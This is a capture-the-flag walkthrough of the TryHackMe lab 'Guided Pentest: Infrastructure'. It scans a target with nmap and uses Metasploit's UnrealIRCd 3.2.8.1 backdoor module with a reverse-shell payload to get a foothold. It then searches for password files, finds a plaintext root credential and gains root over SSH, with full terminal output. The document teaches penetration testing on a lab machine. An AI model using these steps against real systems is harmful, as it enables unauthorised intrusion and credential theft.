




# Guided Pentest: Infrastructure

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: Linux
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Subscription type: Free
Description:
Understand the steps involved in a real-life pentest and follow them to compromise your target.
```

Room link: [https://tryhackme.com/room/guidedpentestinfrastructure](https://tryhackme.com/room/guidedpentestinfrastructure)

## Solution

### Task 1: Introduction

Penetration testing isn't a single skill. It's a way of thinking. On any given engagement, you might need to think like a programmer to understand how an application fails, like a sysadmin to spot a misconfiguration that shouldn't be there, or like a SOC engineer to understand what gets detected. But above all, you need to think like an attacker, someone who looks at a system and asks, "What did they miss?".

By now, you should already have the building blocks. This room will show you how to use them together, step by step, the way a real penetration tester would.

#### Infrastructure Penetration Test

Infrastructure penetration tests (colloquially referred to as infra pentests) are security assessments of devices on a network. These can be servers, printers, firewalls, or any other device with a network interface that can be accessed over the Internet or a LAN. In a later room, [Formal Penetration Testing Frameworks](https://tryhackme.com/room/penetrationtestingframeworks), we'll visit frameworks, but for now, keep this simple methodology in the back of your mind, as it's the backbone of everything you'll do here.

- **Enumeration**: Start from zero. What do you know, and what do you need to find out?
- **Vulnerability analysis**: Analyze your enumeration results and connect the dots to potential weaknesses.
- **Initial access**: Pick your attack and execute it; get a foothold on the target.
- **Privilege escalation**: You're in, but it's not over. Enumerate again, this time from the inside, and find a way up.
- **Reporting**: None of the above matters if you can't communicate it. This is the actual deliverable. In this room, we will only cover this conceptually, as this topic will be covered in more detail in the [Writing Pentest Reports](https://tryhackme.com/room/writingpentestreports) room later in this path.

#### Learning Objectives

- Use tools and techniques to scan a Linux host
- Research vulnerable software to find a working exploit
- Enumerate local Linux files to escalate privileges

#### Prerequisites

- [Metasploit](https://tryhackme.com/module/metasploit) module
- [Nmap](https://tryhackme.com/room/furthernmap) room

#### Scenario

You've just landed your first junior role as a penetration tester. For your first engagement, you will shadow your team lead.

It's Monday morning, and your project manager sends you an email and informs you that your biggest client, TryHatMe, recently deployed a new network device in their infrastructure. Start your AttackBox, make sure the target is online, and begin your pentest.

#### Set up your virtual environment

To successfully complete this room, you'll need to set up your virtual environment. This involves starting both your AttackBox (if you're not using your VPN) and Lab Machines, ensuring you're equipped with the necessary tools and access to tackle the challenges ahead.

---------------------------------------------------------------------------

### Task 2: Enumeration


#### Why Enumerate?

Before you touch a single exploit or try a single password, you need to understand what you're looking at. Enumeration is the foundation of every penetration test and, without it, you're just guessing. The goal here is simple: learn as much as you can about the target before making any moves. What ports are open? What services are running? What versions are behind them? Every piece of information you gather now shapes the decisions you'll make later. Rushed enumeration leads to missed opportunities, and in a real engagement, that could mean the difference between a finding and a footnote in your report.

#### Scanning With Nmap

Let's scan the target with Nmap! You've used it before, but now you're using it with intent. On your AttackBox, open a terminal and run the following command:

```bash
nmap -sV -sC -oN scan.txt 10.113.175.199
```

As a reminder:

- `-sV` probes open ports to identify the service and version running behind them.
- `-sC` runs Nmap's default set of scripts, which pull extra details like banners, supported authentication methods, and more.
- `-oN scan.txt` saves the output to a file. Get in this habit early, and you'll thank yourself during reporting.

After the scan completes, it's time to review the results.

**Note**: Throughout this scenario's examples, IP addresses, port numbers, or service versions may differ from what you will gather, so you can achieve real results by following the steps.

```bash
root@ip-10-80-79-108:~# nmap -sV -sC -oN scan.txt 10.113.175.199
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-13 11:55 UTC
Nmap scan report for ip-10-80-143-186.eu-west-1.compute.internal (10.80.143.186)
Host is up (0.00041s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 22:e4:61:bd:b9:9e:3b:0c:c2:96:b1:48:2b:0b:c4:4b (ECDSA)
|_  256 9a:d3:c7:4e:1e:dc:97:55:93:3a:2f:12:5f:1a:9b:8d (ED25519)
8889/tcp open  irc     UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.pentest-target.thm
|   version: Unreal5.1.6.1. irc.pentest-target.thm 
|   uptime: 0 days, 0:01:46
|   source ident: nmap
|   source host: ip-10-80-79-108.eu-west-1.compute.internal
|_  error: Closing Link: keedrluoh[ip-10-80-79-108.eu-west-1.compute.internal] (Quit: keedrluoh)
Service Info: Host: irc.pentest-target.thm; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---------------------------------------------------------------------------

#### What port other than 22 is open on the target host?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Infrastructure]
└─$ export TARGET_IP=10.113.175.199

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Infrastructure]
└─$ sudo nmap -sC -sV -p- $TARGET_IP                      
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-08-22 18:51 +0200
Nmap scan report for 10.113.175.199
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b3:5c:ab:76:0f:a1:b3:ea:02:f1:2d:b7:14:ee:ef:22 (ECDSA)
|_  256 ca:74:50:2d:1b:74:95:2e:88:ac:e4:26:f2:7e:94:75 (ED25519)
6667/tcp open  irc     UnrealIRCd
| irc-info: 
|   server: irc.pentest-target.thm
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   version: Unreal3.2.8.1. irc.pentest-target.thm 
|   uptime: 0 days, 0:01:38
|   source ident: nmap
|   source host: ip-192-168-152-166.eu-central-1.compute.internal
|_  error: Closing Link: orwlcaojj[ip-192-168-152-166.eu-central-1.compute.internal] (Quit: orwlcaojj)
Service Info: Host: irc.pentest-target.thm; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.15 seconds
```

Answer: `6667`

---------------------------------------------------------------------------

### Task 3: Vulnerability Analysis



#### Connect the Dots

You've got your scan results. Now what?

Don't look at the output like a wall of text. Start asking questions. Is that service version outdated? Is there a known exploit for it? Is something misconfigured? Vulnerability analysis is really just the process of taking what enumeration gave you and asking, "What can go wrong here?".

Your Nmap output gave you two open ports. The simplest method here is to Google their versions and the keyword "exploit".

For example, Googling "OpenSSH 9.6p1 exploit" might yield results on theoretical or very distribution-specific exploits, but nothing tangible. So it is most likely a dead end.

If you are comfortable with the Kali packages, instead of googling, you can use the searchsploit utility to find exploits. Searchsploit is a command-line tool that lets you search Exploit-DB's offline database of public exploits and vulnerability disclosures directly from your terminal.

`searchsploit openssh`

```bash
root@ip-10-80-79-108:~# searchsploit openssh 
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
Debian OpenSSH - (Authenticated) Remote SELinux Privilege Escalation        | linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of Service          | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execution                            | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x - File Read                      | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Overflow                          | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite                                  | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration                                    | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                              | linux/remote/45210.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code Off-by-One                           | unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS Token Buffer Overflow                  | linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (1)                        | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (2)                        | unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remote Denial of Service                  | multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privilege Escalation                        | linux/local/41173.c
OpenSSH 7.2 - Denial of Service                                             | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                     | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                        | linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                                | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                                      | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Soc | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                    | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                        | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files                                  | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - 'gossh.sh' Remote Users Ident                         | linux/remote/26.sh
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery Tool                           | linux/remote/25.c
OpenSSHd 7.2p2 - Username Enumeration                                       | linux/remote/40113.txt
Portable OpenSSH 3.6.1p-PAM/4.1-SuSE - Timing Attack                        | multiple/remote/3303.sh
---------------------------------------------------------------------------- ---------------------------------
```

Again, nothing of real interest, as the versions differ from our reported version. However, searching with either method for the other result from your nmap scan will quickly yield results.

---------------------------------------------------------------------------

#### Use searchsploit to find an exploit for your target UnrealIRC version. What is the path value for the Remote Downloader/Execute script?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Infrastructure]
└─$ searchsploit unrealirc                                    
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                     | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                              | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                   | windows/dos/27407.pl
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Answer: `linux/remote/13853.pl`

---------------------------------------------------------------------------

### Task 4: Initial Access



#### Gaining a Foothold

By now you should have found an exploit for UnrealIRCd that abuses a backdoor left in the software. If you didn't find it, don't worry, it's a learning curve.

The good part about the exploit we are going to use is that there's a Metasploit module for it. This makes exploitation much easier than modifying exploit scripts. Let's fire up Metasploit first.

`msfconsole`

Then, search for the module we need.

`search unrealircd`

```bash
msf > search unrealircd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_5161_backdoor  2010-06-12       excellent  No     UnrealIRCD 5.1.6.1 Backdoor Command Execution
```

From this list, we can use the suggested exploit against our target.

`use 0`

First, we need to see what we must configure for this exploit to run.

`show options`

```bash
 msf exploit(unix/irc/unreal_ircd_5161_backdoor) > show options
  
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client addres
                                       s
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format
                                        type:host:port[,type:h
                                       ost:port][...]. Support
                                       ed proxies: sapni, sock
                                       s4, socks5, http, socks
                                       5h
   RHOSTS                    yes       The target host(s), see
                                        https://docs.metasploi
                                       t.com/docs/using-metasp
                                       loit/basics/using-metas
                                       ploit.html
   RPORT    8889             yes       The target port (TCP)
```

As we can see, the only required parameter that is not yet set is `RHOSTS` (marked by the **Required** column), so we can set it to the lab machine's IP address.

`set RHOSTS MACHINE_IP`

We still need a payload for this exploit to run. We can list available payloads with show `payloads`.

```bash
msf exploit(unix/irc/unreal_ircd_5161_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/adduser                    .                normal  No     Add user with useradd
   1   payload/cmd/unix/bind_perl                  .                normal  No     Unix Command Shell, Bind TCP (via Perl)
   2   payload/cmd/unix/bind_perl_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3   payload/cmd/unix/bind_ruby                  .                normal  No     Unix Command Shell, Bind TCP (via Ruby)
   4   payload/cmd/unix/bind_ruby_ipv6             .                normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   5   payload/cmd/unix/generic                    .                normal  No     Unix Command, Generic Command Execution
   6   payload/cmd/unix/reverse                    .                normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   7   payload/cmd/unix/reverse_bash_telnet_ssl    .                normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_perl               .                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   9   payload/cmd/unix/reverse_perl_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   10  payload/cmd/unix/reverse_ruby               .                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl           .                normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet  .                normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

Since we don't know much about our target or what software it has installed, the safest course is to use a Unix reverse generic payload.

`set payload cmd/unix/reverse`

Now, if we run `show options` again, we'll see that LHOST and LPORT are required for this payload.

```bash
set LHOST CONNECTION_IP
set LPORT 443
```

Now that everything is set, we can launch our attack against the lab machine using the exploit command.

```bash
msf exploit(unix/irc/unreal_ircd_5161_backdoor) > exploit
[*] Started reverse TCP double handler on 10.82.115.225:443 
[*] 10.82.184.186:8889 - Connected to 10.82.184.186:8889...
    :irc.pentest-target.thm NOTICE AUTH :*** Looking up your hostname...
[*] 10.82.184.186:8889 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo IpKbSZnM96KvbLgV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "IpKbSZnM96KvbLgV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.82.115.225:443 -> 10.82.184.186:53836) at 2026-03-17 07:11:47 +0000

whoami
webmaster
```

Once the exploit completes, you can read the flag from `/home/webmaster/flag.txt`.

**Note**: When you first catch a reverse shell, it's typically a "dumb" shell without full terminal features — it lacks job control, tab completion, and importantly, commands like `su` or `sudo` won't work because they require an interactive TTY to securely read passwords. Upgrading to a full TTY transforms your basic reverse shell into a proper interactive terminal session, which is necessary because commands like `su` and `sudo` require a real terminal (TTY) to safely prompt for and read password input. In this room, this is not required, as we will see later.

---------------------------------------------------------------------------

#### What is the user-level flag?

Get a reverse shell with Metasploit.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Infrastructure]
└─$ msfconsole -q                                                                                     
msf > search unrealircd

Matching Modules
================

   #  Full Name                                   Disclosure Date  Rank       Check  Name
   -  ---------                                   ---------------  ----       -----  ----
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  Yes    UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf > use 0
[*] Using configured payload cmd/linux/http/x86/meterpreter/reverse_tcp
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.113.175.199
RHOSTS => 10.113.175.199
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.113.175.199   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   6667             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux/Unix Command


View the full module info with the info, or info -d command.

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST tun0
LHOST => 192.168.152.166
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.152.166:4444 
[*] 10.113.175.199:6667 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.113.175.199:6667 - Connected to 10.113.175.199:6667
[*] 10.113.175.199:6667 - Trying to register a new IRC user: france
[+] 10.113.175.199:6667 - The target appears to be vulnerable. UnrealIRCd detected after registration
[*] 10.113.175.199:6667 - Connected to 10.113.175.199:6667
[*] 10.113.175.199:6667 - Sending IRC backdoor command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jaTwgwrimHCKrTG4;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "jaTwgwrimHCKrTG4\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.152.166:4444 -> 10.113.175.199:44536) at 2026-08-22 18:58:58 +0200

id
uid=1001(webmaster) gid=1001(webmaster) groups=1001(webmaster)
cat /home/webmaster/flag.txt
THM{<REDACTED>}
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 5: Post Exploitation



#### Privilege Escalation

Now that we've gotten a foothold on the lab machine, we need to check for ways to escalate our privileges. In the [Linux Privilege Escalation: Basics](https://tryhackme.com/room/linprivbasics) room later in this path, we'll visit privilege escalation enumeration and exploitation techniques. For now, let's try to find interesting files that may help us with our privilege escalation attempts.

`find / -name password* 2>/dev/null`

This command will attempt to find all files on the target system that contain the word password in their name. `2>/dev/null` will suppress errors.

```bash
find / -name password* 2>/dev/null
/boot/grub/i386-pc/password.mod
/boot/grub/i386-pc/password_pbkdf2.mod
/snap/core20/2379/var/lib/pam/password
/snap/core/17272/usr/lib/pppd/2.4.7/passwordfd.so
/snap/core/17272/var/cache/debconf/passwords.dat
/snap/core/17272/var/lib/pam/password
/snap/core18/2999/var/lib/pam/password
/snap/core18/1885/var/lib/pam/password
/snap/core22/1621/var/lib/pam/password
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/etc/password.txt
/var/lib/pam/password
/var/cache/debconf/passwords.dat
```

You can go ahead and inspect all these files, but one stands out from the rest: `/etc/password.txt`.

We can read this with `cat /etc/password.txt`. Luckily for us, it seems to contain root credentials. Since we're not in an interactive terminal session, we won't be able to use `su` to enter the password. However, we know from our previous external enumeration that an SSH service is running on this host. Open a new terminal and run the following command:

`ssh root@10.113.175.199`

When prompted, enter the password you found previously in `/etc/password.txt`. Congrats, you now own this machine! You can find your flag in `/root/flag.txt`.

---------------------------------------------------------------------------

#### What is the root flag?

Locate and get root password:

```bash
find / -name password* 2>/dev/null
/boot/grub/i386-pc/password.mod
/boot/grub/i386-pc/password_pbkdf2.mod
/snap/core20/2379/var/lib/pam/password
/snap/core/17272/usr/lib/pppd/2.4.7/passwordfd.so
/snap/core/17272/var/cache/debconf/passwords.dat
/snap/core/17272/var/lib/pam/password
/snap/core18/2999/var/lib/pam/password
/snap/core18/1885/var/lib/pam/password
/snap/core22/1621/var/lib/pam/password
/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/etc/password.txt
/var/lib/pam/password
/var/cache/debconf/passwords.dat
cat /etc/password.txt
root:PDLrCVl1pLD91U0JMmCz
```

Login with SSH and get the root flag.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/Guided_Pentest_Infrastructure]
└─$ ssh root@10.113.175.199
The authenticity of host '10.113.175.199 (10.113.175.199)' can't be established.
ED25519 key fingerprint is SHA256:jhXqJtsVfSJmNWD9E6nsWBjJ3yyOIXbmIPnr5Q6UQCM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.113.175.199' (ED25519) to the list of known hosts.
root@10.113.175.199's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-1017-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug 22 17:03:20 UTC 2026

  System load:  0.01               Temperature:           -273.1 C
  Usage of /:   14.0% of 19.31GB   Processes:             113
  Memory usage: 7%                 Users logged in:       0
  Swap usage:   0%                 IPv4 address for ens5: 10.113.175.199


Expanded Security Maintenance for Applications is not enabled.

261 updates can be applied immediately.
146 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Jan  1 00:00:10 1970
root@pentest-target:~# cat /root/flag.txt 
THM{<REDACTED>}root@pentest-target:~# 
root@pentest-target:~# 
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------

### Task 6: Reporting



Even though we'll visit the reporting in a later room, some things must still be mentioned.

First of all, you should keep in mind that all the client will ever see of your work is your report. You could have the pentest of your life in which you own all the ATMs in a bank and become its domain admin, but if your report is bad, then it means the pentest was bad.

Secondly, while all professionals have their own way of writing reports, some general items should always be there:

- A cover page with a title, your name, and email address, and version control.
- A table of contents (Optional).
- An executive summary, aimed at the manager who requested the engagement, explaining what was achieved in non-technical terms.
- A technical summary aimed at the engineering manager, so they understand the impact and can prioritize accordingly (Optional).
- A table of all vulnerabilities found, ordered by severity, aimed at managers and engineers, again to prioritize accordingly.
- Detailed exploitation section, where each vulnerability and its impact are explained, exploitation steps and proof are shown, and recommendations for mitigations are given. This is aimed at engineers who will remediate your findings.

Lastly, take pride in what you did. The report is your time to shine and show your client your best work. Don't skip steps and be as detailed as possible to provide the best value for your client.

The following example is a reported finding for the privilege escalation vector we've found in this scenario.

**Title**: Root Password Stored in Plaintext

**Severity**: Critical

**Description**: The root user's password was found stored in plaintext within the file `/etc/password.txt`. This file was readable by low-privileged users, allowing any user with shell access to retrieve the root credentials and fully compromise the system.

**Exploitation Steps**:

1. Obtain a low-privileged shell on the target system.
2. Read the contents of `/etc/password.txt` using `cat /etc/password.txt`.
3. Use the discovered root password to escalate privileges via ssh root@IP.

**Recommendation**: Remove the plaintext password file immediately and rotate the root password. Credentials should never be stored in plaintext on the filesystem. Implement a secrets management solution or use properly configured system authentication mechanisms (such as `/etc/shadow` with strong hashing). Additionally, enforce the principle of least privilege to restrict file access permissions.

---------------------------------------------------------------------------

#### Which report section is aimed at engineering managers?

Answer: `Technical Summary`

---------------------------------------------------------------------------

### Task 7: Conclusion

Infrastructure pentests are the closest thing to what a malicious hacker does. Everything starts from a list of IPs you know nothing about, and it's your job to uncover their secrets and find their weak points.

In this room, we've only attacked one IP, but we went through all the steps.

- We've seen how to enumerate services on a target host and analyze the results to find the best exploit for our target.
- We've gained an initial foothold on the target using a public exploit against a vulnerable service.
- Finally, we used basic Linux command line skills to find a root password.

For more information on the techniques covered in this room, please refer to the following rooms:

- [Metasploit: Scanning and Exploitation](https://tryhackme.com/room/metasploitscanningandexploitation)
- [Linux Privilege Escalation: Enumeration](https://tryhackme.com/room/linprivenum)
- [Writing Pentest Reports](https://tryhackme.com/room/writingpentestreports)

---------------------------------------------------------------------------

For additional information, please see the references below.

## References

- [cat - Linux manual page](https://man7.org/linux/man-pages/man1/cat.1.html)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [IRC - Wikipedia](https://en.wikipedia.org/wiki/IRC)
- [Metasploit - Documentation](https://docs.metasploit.com/)
- [Metasploit - Homepage](https://www.metasploit.com/)
- [Metasploit-Framework - Kali Tools](https://www.kali.org/tools/metasploit-framework/)
- [nmap - Homepage](https://nmap.org/)
